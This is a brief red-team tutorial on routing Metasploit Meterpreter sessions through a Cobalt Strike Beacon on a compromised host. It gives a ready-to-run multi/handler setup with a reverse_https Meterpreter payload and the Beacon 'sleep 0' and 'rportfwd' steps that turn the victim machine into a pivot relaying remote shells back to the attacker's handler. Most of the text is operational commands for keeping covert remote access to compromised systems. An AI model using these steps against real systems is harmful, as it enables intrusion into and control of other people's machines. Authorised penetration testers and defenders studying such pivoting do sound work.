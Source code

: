 # Tunnel Meterpreter through Beacon

#### Use Beacon’s rportfwd command to turn a system, compromised with Beacon, into a [redirector](https://www.cobaltstrike.com/2014/01/14/cloud-based-redirectors-for-distributed-hacking/) for your Meterpreter sessions. The rportfwd command creates a server socket on a compromised system. Any connections to this server socket result in a new connection to a forward host/port. Traffic between the forward host/port and the connection to the compromised system is tunneled through Beacon.

#### To create a Meterpreter handler that rides through a Beacon reverse port forward:

<pre>
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST [IP address of compromised system]
set LPORT 8443
set ExitOnSession False
exploit –j
</pre>

#### These commands create a Meterpreter HTTPS handler, bound to port 8443, that stages and connects to the IP address of our pivot host.
 
#### To create a reverse port forward in Cobalt Strike:

1. Interact with a Beacon on the compromised system you want to pivot through.

2. Use sleep 0 to make the Beacon check-in multiple times each second

3. Type rportfwd 8443 [IP of Metasploit system] 8443 to create a reverse port forward.

#### You now have a server socket, bound on the compromised system, that forwards connections to your Meterpreter handler. If you want to use that Meterpreter handler from Cobalt Strike, create a foreign listener.

#### Optionally, use Cobalt Strike’s [Pivot Listeners](https://www.cobaltstrike.com/help-pivot-listener) feature to create a reverse port forward and a foreign listener in one step.

[POC VIDEO](https://youtu.be/ISbTrnKo0wM)
